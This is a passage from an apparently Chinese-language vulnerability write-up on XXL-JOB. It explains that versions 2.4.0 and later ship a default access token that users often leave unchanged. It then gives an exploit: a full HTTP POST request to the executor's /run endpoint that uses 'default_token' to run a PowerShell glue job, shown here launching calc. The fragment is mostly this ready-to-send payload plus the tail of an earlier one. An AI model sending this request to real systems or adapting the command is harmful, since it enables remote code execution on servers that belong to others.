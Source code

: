 ```plain
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

## 3、XxlJob >= 2.4.0 添加了默认 token

作者为了修复该漏洞，添加了默认的 token，但是这就如同 nacos 的 jwt 秘钥，shiro 的默认 key 一样，由于使用者的粗心大意不修改该 key，还是可以被利用  
exp

```plain
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

- - -
